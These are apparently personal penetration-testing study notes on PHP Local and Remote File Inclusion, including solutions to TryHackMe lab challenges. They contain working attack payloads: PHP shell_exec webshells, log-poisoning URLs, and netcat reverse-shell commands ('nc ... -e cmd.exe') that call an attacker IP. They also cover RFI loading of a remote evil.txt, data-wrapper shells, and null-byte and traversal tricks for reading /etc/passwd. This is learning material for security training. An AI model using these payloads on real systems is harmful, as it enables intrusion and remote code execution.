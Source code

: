 

File Inclusion vulns require attacks to execute code and write shell payload somewhere.  
  
**LFI** - Local File Inclusion - When the file is loaded from the same web server.  
**RFI** - Remote File Inclusion - When the file is loaded from an external source.  
  
Exploitation depends on both the language the app is written in and the server config.  
Ex:  
PHP - the version of the language runtime and web server configs (_php.ini_) values like _register_globals_ and _allow_url_ wrappers make a difference.  
  
  
If bind/ reverse bind won't properly execute binaries, verify whether it's a [fully interactive TTY](Fully%20Interactive%20TTY.md):


### ID'ing:
Can be discovered in same way as directory traversals: locate parameters we can manipulate and attempt to use them to load arbitrary files, then execute the contents.  
  
Check parameters to see if they are vulnerable to RFI by changing their values to a URL instead of a local path.  
Default configs for modern PHP versions disables remote URL includes, but we should still test.  
Can use [nc](Tools.md#netcat), Apache, or Python to handle the request.  
Host payloads on different ports as any remote connection may be subject to internal firewalls or routing rules.  
  
  
### Exploiting LFI:
WebApp PHP:  
```php
<?php  
    $file = $_GET["file"];  
    include $file;  ?>
```
	App reads in the _file_ param from the request query string, then uses that value with an _include_ statement  
	Means app will execute any PHP code w/in the specified file.  
  
***Note:** If the file were opened with _fread_ and _echo_ were used to display the contents, then any code w/in the file would be displayed rather than executed.  
  
  
### Contaminating Log Files:
If we can't upload a file to the server, we can try to inject code through log file poisoning.  
Submitting a request that includes PHP then using LFI to load the payload can work as most app servers will log all URLs that are requested.  
  
Ex (Using Win client w/ taco sight up & running):  
• Send a log file payload from attacker ip  
```bash
nc -nv 192.168.xxx.166 80
```
  
(UNKNOWN) \[192.168.xxx.10\] 80 (http) open  
```php
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
```
	- Written in PHP hence: \<?php ?\>  
	- Bulk of payload is echo command that will print output to the page  
	- Wrapped in _pre_ HTML tags preserving any line breaks or formatting in the results of the function call.  
	- _shell_exec_ executes an OS cmd retrieving from the “cmd” parameter of the GET request.  
	
 
 - Craft URL that utilize Directory Traversal to locate the Apache _access.log_ file, exploit the app's _include $file;_ statment, & execute the PHP code.
 ```null
 http://192.168.xxx.10/menu.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig
```
 
Result:
![[log_poisoning.png]]


To pop a shell:  
- Start listener on attacker box  
```bash
nc -nlvp 80
```
  
- Use log file poisoning to craft URL for reverse bind shell:  
```null
http://192.168.xxx.10/menu.php?file=c:\xampp\apache\logs\access.log&cmd=nc%20192.168.xxx.166%2080%20-e%20cmd.exe
```
   
*NOTE: Important to read any errors that are displayed.  
- Might disclose full web directory  
- Might disclose a define directory the devop forced the webapp to read from (Can circumvent via _?file=directory/../../../../etc/passwd_)  
- Might disclose filtering: Devops filters out _../_ so using _....//....//....//_ works.  
  
  
  
## TryHackMe LFI Challenges:
1. Input form is broken, but need to send POST request with ‘file=’  
```bash
curl -X POST http://10.10.44.240/challenges/chall1.php -d "file=etc/flag1"
```
 
2. Welcome Guest! Only Admins can access the page!  
	- Within Dev > Console  
```html
document.cookie="THM=admin"
```
	& refresh
	
 - Refreshes as admin page  
```html
document.cookie="THM=/etc/flag2"
```
	& refresh.  

- Returns error "Warning: include(includes//etc/flag2.php)  
	- Shows that files are being hosted from w/in _includes_ directory  
	- Shows that there's two _/_ from _includes_ to _etc_  
	- Shows request ends looking for _.php_ files  
```html
document.cookie="THM=../../../../../etc/flag2%00"
```
	& refresh.  
  
3. Include a file  
```null
http://10.10.44.240/challenges/chall3.php?file=/etc/flag3
```

- Returns error “Warning: include(etcflag.php)”  
	- Shows it's exluding _/_ char (Tested for multiple _/_ and all are being filtered)  
	- Shows request ends looking for _.php_ files  
	- Both work:  
```bash
curl -X POST http://10.10.44.240/challenges/chall3.php -d "file=/etc/flag3%00 --output -
```
```bash
curl http://10.10.44.240/challenges/chall3.php -H "Content-Type= application/x-www-form-urlencoded" -d "file=/etc/flag3%00 --output -
```

  
  
### RFI:
Easier to exploit, allows for more payload crafting flexibility, but less common than LFIs as the server must be configured very specifically for them.  
Ex:  
PHP apps must be configured w/ _allow_url_include_ set to ‘ON’ (not default in newer versions)  
If the config file is set w/ a **$** is present in _FilesMatch_, then double extensions are not allowed.  
  
Can test by creating a listener on attack box and crafting the URL:
```null
http://192.168.xxx.10/menu.php?file=http://192.168.xxx.166/evil.txt
```
	If output on attack box shows a GET request for _/evil.txt_ RFI is possible.  
  
  
\*Older versions of PHP have a vulnerability in which a null byte (%00) will terminate any string.  
This trick can be used to bypass file extensions added server-side (using BurpSuite) and is useful for file inclusions because it prevents the file extension from being considered as part of the string.  
In other words, if an app reads in a parameter and appends “.php” to it, a null byte passed in the parameter effectively ends the string without the “.php” extension.  
This gives an attacker more flexibility in what files can be loaded with the file inclusion vulnerability.  
[http://youtube.com/watch?v=jBtzFGwHvxE](http://youtube.com/watch?v=jBtzFGwHvxE)

\*Another trick for RFI payloads is to end them with a question mark (?) to mark anything added to the URL server-side as part of the query string  
  
  
Simple _webshell_ - software providing Web-based CLI:  
  
- Save the previous php cmd to the _evil.txt_ file  
```php
<?php echo shell_exec($_GET['cmd']); ?>
```
 
- Refresh Apache  
```bash
sudo systemctl restart apache2
```
  
- Once file is in place (_/var/www/html_) & web server running can sent RFI attack URL to vuln web  
```null
http://192.168.xxx.10/menu.php?file=http://192.168.xxx.166/evil.txt&cmd=ipconfig
```

Can set _cmd_ to reverse bind w/ **nc** ^  
  
Pre-written backdoors can be found at _/usr/share/webshells_  
  
  
### PHP Wrappers:
Can be used to exploit [Directory Traversal](9.1%20-%20Directory%20Traversal.md) and [LFI](#Exploiting%20LFI) vulns  
  
Can use the _data_ wrapper to embed inline data as part of the URL w/ plaintext or base64 data.  
Provides an alternative payload when local files can't be poisoned.  
  
  
Usage:  
```html
file=data:text/plain,hello world
``` 
	- text/plain - signaling plaintext  
	- , marks start of the contents  
  
  
For shell:  
```bash
http://192.168.xxx.10/menu.php?file=data:text/plain,nc 192.168.xxx.166 8080 -e cmd.exe
```

  

### Null Bytes:
Developers can specify the type of file it's looking for:  
```null
http://target.com/menu.php?file=/etc/passwd
```
becomes
```null
http://target.com/menu.php?file/etc/passwd.php
```

 
Adding the Null Byte _%00_ or _0x00_ to terminate the string and trick the webapp into ignoring everything else afterwards:  
```null
http://target.com/menu.php?file=/etc/passwd%00
```


This is patched in PHP 5.3.4 and above  
  
If the files are blocked, can attempt to view them by adding a _./_ at the end:  
```null
http://target.com/menu.php?file=../../../../etc/passwd/.
```